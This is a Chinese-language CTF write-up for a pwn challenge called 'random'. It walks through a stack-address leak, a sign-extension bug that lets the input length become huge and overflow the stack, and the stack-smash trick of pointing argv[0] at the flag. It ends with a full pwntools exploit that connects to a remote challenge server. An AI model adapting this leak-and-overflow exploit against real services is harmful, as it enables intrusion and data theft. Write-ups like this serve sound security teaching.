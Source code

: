 ```yaml
---
title: PWN-random（stack smash）
description: PWN-random（stack smash）-writeup
date: 2021-08-11 15:07:56
categories:
 - PWN
tags:
---
```


# PWN-random（stack smash）

## IDA分析



main函数

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646403105-ca498f11-5e14-4763-86a7-1a1eeedaa65b.png)

发现prctl，用seccomp-tools dump ./random，发现禁止了execve

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646407902-d657d615-29f7-48c7-a583-c745013d841f.png)

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646413681-87c171a6-d134-40ae-8be1-59c8b80c7a27.png)

将flag的内容写到buf中，然后打印出buf的低一字节数据

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646434515-c141b10f-bf2e-4dcd-9f5f-07e8f7ba4d77.png)

返回一个整形数据给v0，然后与0x80作与赋值给dword_20204c，然后作为sub_C1F的第二个参数

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646442349-8b34368b-c44f-4542-8dd1-b7be90259058.png)

一个一个字节赋值给buf，遇到'\n'退出

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646450597-916f1461-17c0-415a-a9f4-3c572527fb48.png)

## 调试过程

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646459071-1ebc3d27-a193-4aba-82b5-bce48abdd793.png)

发现这里输入16个字节数据后，printf会打印出奇奇怪怪的东西，盲猜是栈的地址，通过调试发现确实是

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646464976-9d3bf181-d828-4ecc-895c-02ee79cba82b.png)

先找到buf的地址，我们就可以通过栈地址找出距离buf的偏移了，0x7ffe15c95da0-0x7ffe15c95a8=0x320

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646474955-42aa73cb-d8d6-4c55-ac98-10e6315fc325.png)

然后是这里，一直觉得这里有问题，卡了好久，然后看了一眼汇编，发现原来是跟0xFFFFFF80作与操作，而且movsx这个指令会直接也有问题，这里会将`32`位寄存器进行符号扩展到`64`位寄存器

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646488361-0756e9ab-f06b-48e5-b2fe-56a677eb28cd.png)

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646493315-a11a933c-be6c-4632-9cf2-c7e6d1adb2bd.png)

通过输入0x80调试发现RSI为0xffffffffffffff80，这个作为sub_C1F的第二个参数，也就是长度，那么就可以造成栈溢出了

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646498505-afb3134b-7fff-42a4-8097-bb7e70364cc3.png)

## 思路



现在是可以求出buf的地址，也就是flag的地址，也有栈溢出的漏洞，但是这题开了pie，不知道基地址和libc的地址，但是这题开了canary，这里就可以用到stack smash，通常return的时候发现栈被修改过就会触发__stack_chk_fail函数，这个函数会打印出argv[0]也就是文件名，argv是存在栈的高地址，可以通过修改argv[0]指向buf也就是flag，从而打印出flag



## EXP



```python
from pwn import *

context.log_level = 'debug'

# p = process('./random')
p = remote('106.75.105.53','52312')

payload = 'a'*15 + 'b'
p.sendafter('tell me your name',payload)
p.recvuntil('ab')
stack = u64(p.recv(6).ljust(8,'\x00'))
print(hex(stack))

flag_addr = stack - 0x320
print(hex(flag_addr))
p.recvline()
buf = p.recvline()[5:-1]
print(buf)
p.sendafter("leave something?\n", str(0x80))

payload = p64(flag_addr)*0x300
p.sendline(payload)

p.interactive()
```



![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1628646511312-a26c8405-b762-4d64-8861-0399a6902faf.png)